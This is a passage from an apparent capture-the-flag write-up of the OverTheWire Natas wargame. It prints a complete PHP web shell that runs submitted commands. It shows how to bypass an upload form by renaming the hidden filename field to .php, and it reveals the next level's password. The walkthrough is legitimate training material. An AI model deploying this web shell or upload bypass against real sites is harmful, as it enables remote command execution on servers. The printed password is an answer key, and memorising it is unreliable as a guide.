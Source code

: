 No filetype valiation.  
Simple PHP shell

```php
<!-- By justin-p (https://raw.githubusercontent.com/justin-p/sec-stuff/master/php/simple_shell/simple_shell.php) based of https://github.com/artyuum/Simple-PHP-Web-Shell/ -->
<?php if (empty($_POST['cmd'])) {$cmd = "";} elseif (!empty($_POST['cmd'])) {$cmd = shell_exec($_POST['cmd']);} ?>
<form method="POST"><input type="text" style="width:100%;height:25px;" name="cmd" id="cmd" value="<?php if (!empty($_POST['cmd'])) {htmlspecialchars($_POST['cmd'], ENT_QUOTES, 'UTF-8');} ?>" required><button type="submit" class="btn btn-primary">Execute</button></form>
<?php if (!$cmd && $_SERVER['REQUEST_METHOD'] != 'POST'): ?><small>Enter command.</small> <?php elseif ($cmd): ?><pre><?= htmlspecialchars($cmd, ENT_QUOTES, 'UTF-8') ?></pre> <?php elseif (!$cmd && $_SERVER['REQUEST_METHOD'] == 'POST'): ?><small>No results.</small> <?php endif; ?>
```

Now we just need to update the file name

```text
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

to

```text
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.php" />
```

We can do this with Burp or F12 -&gt; network -&gt; headers -&gt; edit and resend

```text
Content-Disposition: form-data; name="filename"

zpfrokehzg.php
```

```text
The file upload/zpfrokehzg.php has been uploaded
```

From here we can simply use the shell to cat the file

```text
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

### natas13

```markup
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    
```